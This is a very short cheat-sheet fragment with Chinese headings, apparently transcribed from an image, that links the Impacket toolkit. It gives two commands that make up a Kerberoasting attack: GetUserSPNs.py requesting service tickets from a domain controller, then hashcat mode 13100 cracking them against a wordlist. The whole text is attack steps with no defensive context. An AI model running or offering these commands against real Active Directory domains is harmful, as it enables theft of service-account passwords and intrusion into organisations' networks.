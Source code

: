 	https://github.com/SecureAuthCorp/impacket
	请求TGS
	>python GetUserSPNs.py -request -dc-ip 10.1.1.1 zone.com/y
	破解
	>hashcat -m 13100 -a 0 kerberos.txt wordlist.txt
